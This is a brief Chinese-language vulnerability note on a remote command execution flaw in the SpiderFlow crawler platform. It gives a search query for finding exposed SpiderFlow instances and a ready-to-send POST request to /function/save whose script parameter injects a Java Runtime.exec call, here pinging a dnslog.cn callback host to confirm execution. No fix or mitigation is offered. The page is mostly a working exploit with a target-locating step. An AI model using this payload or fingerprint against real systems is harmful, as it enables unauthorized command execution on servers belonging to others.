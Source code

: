 # SpiderFlow save 远程命令执行漏洞

## 漏洞描述

SpiderFlow 平台以流程图的⽅式定义爬虫，是⼀个高度灵活可配置的爬虫平台

官⽹：https://www.spiderflow.org/

## 漏洞影响

```
SpiderFlow
```

## 网络测绘

```
title=="SpiderFlow"
```

## 漏洞复现

主页面

![image-20220524153437590](images/202205241534681.png)

发送请求包执行命令

```
POST /function/save

id=&name=cmd&parameter=yw&script=}Java.type('java.lang.Runtime').getRuntime().exec('ping chwd71.dnslog.cn');{
```

![image-20220524153448336](images/202205241534389.png)
